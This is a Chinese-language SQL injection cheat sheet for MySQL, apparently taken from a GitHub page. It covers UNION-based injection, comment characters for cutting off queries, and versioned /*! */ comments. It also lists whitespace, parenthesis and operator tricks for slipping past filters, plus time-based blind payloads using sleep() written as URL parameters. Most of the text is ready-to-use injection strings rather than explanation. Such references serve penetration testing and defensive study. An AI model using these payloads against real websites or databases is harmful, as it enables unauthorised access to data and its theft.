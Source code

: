 
## 一、查询数据库信息
mysql 5 联合查询；mysql 4 不支持联合查询。  

我们平时在注入中使用UNION查询一般都采用数字匹配字段的方式以达到select_expression的适用条件（即UNION后面查选的字段数量、字段数据类型都应该与最前面SELECT的一样），这是因为数字役属于几乎所有数据类型，因此可以匹配任何字段，HEX编码方式同样役属于几乎所有数据类型。  

可以使用很多单双引号，只要是成对出现的。  
``` 
SELECT * FROM Articles WHERE id = '1''';
SELECT 1 FROM dual WHERE 1 = '1'''''''''''''UNION SELECT '2';
```

下面的符号可以用来注释语句：  
&#35; Hash 语法（注意浏览器访问时需要编码成%23，否则被当作锚点起始）  
/*  C-style 语法  
-- - SQL 语法  
--+ Mysql语法  
;%00 空字节  
` 反引号  

Mysql中，`/*! SQL 语句 */` 这种格式里面的 SQL 语句会当正常的语句一样被解析。  
如果在!之后是一串数字(这串数字就是 mysql 数据库的版本号)， 如：`/*! 12345 SQL 语句 */`  
当版本号大于等于该数字，SQL 语句则执行，否则就不执行。  
`UNION SELECT /*!50000 5,null;%00*//*!40000 4,null-- ,*//*!30000 3,null-- x*/0,null--+`  
`SELECT 1/*!41320UNION/*!/*!/*!00000SELECT/*!/*!USER/*!(/*!/*!/*!*/);`  

允许的字符:  
09 Horizontal Tab  
0A New Line  
0B Vertical Tab  
0C New Page  
0D Carriage Return  
A0 Non-breaking Space  
20 Space  
例子：`'and%0A%09UNION%0CSELECT%A0NULL%20%23`  

括号也可以用来绕过过滤空格的情况：  
28 (  
29 )  
例子：`UNION(SELECT(column)FROM(table))`  

AND或OR后面可以跟的字符:  
20 Space  
2B +  
2D -  
7E ~  
21 !  
40 @  
例子：`SELECT 1 FROM dual WHERE 1=1 AND-+-+-+-+~~((1))`  
dual 是一个虚拟表，可以用来做测试。  
注意：where a_exp or b_exp 中即使 a_exp is true 也是会计算 b_exp 的；在没有加() 等其他符号时， and 和 or 一起出现先计算 and，为了绕过对 and / or 的过滤，可以使用 rlike 等关键字，比如 `where 11=11 rlike sleep(10)#`。   
`?id=1%27%20AnD%201=2%20OR%20if(now()%3dsysdate()%2csleep(3)%2c0)%20And%20%271%27=%271`  
